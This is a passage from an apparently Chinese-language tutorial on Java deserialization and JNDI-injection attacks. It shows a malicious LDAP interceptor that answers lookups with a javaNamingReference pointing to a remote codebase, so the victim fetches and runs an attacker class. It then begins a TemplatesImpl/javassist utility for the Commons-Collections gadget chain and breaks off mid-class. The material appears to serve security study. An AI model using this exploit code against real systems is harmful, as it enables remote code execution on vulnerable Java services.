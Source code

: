 ```java
        private URL codebase;
        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

其中的Utils类为创建一个模板类，然后设置其属性，其实还是CC链那一套，为了避免冗杂，另分开写

```java
package demo2.utils;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.lang.reflect.Field;

public class Utils {

```